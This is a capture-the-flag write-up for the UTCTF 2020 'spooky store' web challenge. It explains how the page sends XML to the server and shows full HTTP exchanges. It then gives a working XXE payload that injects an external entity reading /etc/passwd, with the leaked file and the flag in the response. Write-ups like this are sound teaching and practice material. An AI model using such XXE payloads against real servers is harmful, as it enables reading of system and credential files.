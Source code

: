 # UTCTF 2020 – spooky store

* **Category:** web
* **Points:** 50

## Challenge

> It's a simple webpage with 3 buttons, you got this :)
> 
> http://web1.utctf.live:5005/
> 
> by matt

## Solution

The web page sends data via XML envelops, using two Javascript files, when buttons are pressed.

The first script (`http://web1.utctf.live:5005/static/js/xmlLocationCheckPayload.js`) crafts the XML envelope.

```javascript
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<locationCheck>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</locationCheck>';
    return xml;
}
```

The second script (`http://web1.utctf.live:5005/static/js/locationCheck.js`) sends the XML envelope and reads the answer.

```javascript
document.querySelectorAll('.locationForm').forEach(item => {
    item.addEventListener("submit", function(e) {
        checkLocation(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
        e.preventDefault();
    });
});
function checkLocation(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t)
                : "Could not fetch nearest location :("
            )
            .then(res => document.getElementById("locationResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```

A normal interaction is like the following.

```
POST /location HTTP/1.1
Host: web1.utctf.live:5005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web1.utctf.live:5005/
Content-Type: application/xml
Origin: http://web1.utctf.live:5005
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><locationCheck><productId>1</productId></locationCheck>

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Date: Sat, 07 Mar 2020 11:04:35 GMT
Server: Werkzeug/1.0.0 Python/3.8.1
Content-Length: 60
Connection: Close

The nearest coordinates to you are: 25.0000Â° N, 71.0000Â° W
```

Passing a wrong `productId` will trigger the following error message.

```
POST /location HTTP/1.1
Host: web1.utctf.live:5005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web1.utctf.live:5005/
Content-Type: application/xml
Origin: http://web1.utctf.live:5005
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><locationCheck><productId>0</productId></locationCheck>

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Date: Sat, 07 Mar 2020 11:05:11 GMT
Server: Werkzeug/1.0.0 Python/3.8.1
Content-Length: 20
Connection: Close

Invalid ProductId: 0
```

The passed parameter is reflected to the response, so if the system is vulnerable to XXE you can read files on the server.

You can craft a payload like the following.

```
POST /location HTTP/1.1
Host: web1.utctf.live:5005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web1.utctf.live:5005/
Content-Type: application/xml
Origin: http://web1.utctf.live:5005
Content-Length: 176
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><locationCheck><productId>&xxe;</productId></locationCheck>

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Date: Sat, 07 Mar 2020 11:09:12 GMT
Server: Werkzeug/1.0.0 Python/3.8.1
Content-Length: 1234
Connection: Close

Invalid ProductId: root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
utctf:x:1337:utflag{n3xt_y3ar_go1ng_bl1nd}
```

And discover the flag into `/etc/passwd`.

```
utflag{n3xt_y3ar_go1ng_bl1nd}
```